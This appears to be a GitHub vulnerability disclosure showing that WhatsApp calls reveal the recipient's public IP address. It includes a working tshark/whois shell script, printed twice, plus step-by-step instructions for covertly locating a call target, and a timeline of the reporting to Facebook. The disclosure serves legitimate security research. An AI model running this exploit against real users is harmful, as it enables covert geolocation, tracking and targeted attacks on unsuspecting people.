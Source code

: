 ## Leak the IP address and Geolocation of target whatsapp user 

### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

Finally, this is a personal development, please respect its philosophy and don't use it for bad things!

### Description/Impact

#### PoC Video:

https://vimeo.com/577355374

#### Complete Details

Latest version of whatsapp application on all platforms is vulnerable to remote whatsapp user public IP disclosure.

It is observed that during a whatsapp (voice / video) call, application on caller side tries to establish a direct connection with the public IP address of recipient device. By filtering the Facebook and WhatsApp server IP addresses from the destination hosts, it is possible to reveal the correct public IP address of the target whatsapp user without his knowledge.

Following is a quick script to exploit this vulnerability,

--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------

#### Impact


Possibility to map whatsapp users with their public IP will not just reveal whatsapp users' location information but can also be misused to track their physical movement by maintaining location history. Such direct mapping between user to IP information can also be misused to track users' surfing habits and to influence him.

Further, the public IP could be exploited to launch targeted attacks towards whatsapp user home or office.

### Repro Steps

#### Setup

Users: UserA is has whatsapp detail of UserB

Environment: n/a

Browser: n/a

App version: <=latest version of whatsapp application on any platform

OS: All platforms except web

Description: UserA makes a whatsapp call to UserB and captures his public IP information without UserB's knowledge. Video PoC for better understanding of steps: https://vimeo.com/577355374



#### Steps

Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID

Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone


--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------


Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter

Step 4: Call victim on his whatsapp

Step 5: Disconnect the call once established

Step 6: Script will reveal the public IP address of the target

Step 7: Validate the public IP address on target phone

### Disclosure timeline

1) October 14, 2020 - Reported vulnerability to Facebook
2) October 14, 2020 - Response from Facebook (Thank you for your report. In this case, the issue you've described is actually just intended functionality and therefore doesn't qualify for a bounty.)
3) October 14, 2020 - Reply to Facebook (could you please let me know how WhatsApp users could mitigate this accidental disclosure of his IP and potential private information about his location?)
4) October 16, 2020 - Follow up email
5) October 20, 2020 - Response from Facebook (Due to the nature of the peer to peer protocol, the best methods for users who may be concerned about accidental disclosure is to take a proactive approach. This can include limiting calls to trusted users or using a VPN.)
6) January 18, 2021 - Requesting permission for public disclosure (In such a case, is it fine if I publish this finding with public disclosure?)
7) January 18, 2021 - Response from Facebook (The decision to publish is entirely yours. There are no penalties for doing so.)
8) March 20, 2021 - Further communication with Facebook (During my research have noticed that Signal has introduced a feature to relay calls through the signal server to void revealing IP addresses....Could you please recheck the approach to limit calls to trusted users or using a VPN? I believe using VPN all the time is not a feasible solution to protect the location privacy.)
9) March 23, 2021 - Response from Facebook (At this time we are content with our current implementation of WhatsApp calling.)
10) July 03, 2021 - Public disclosure
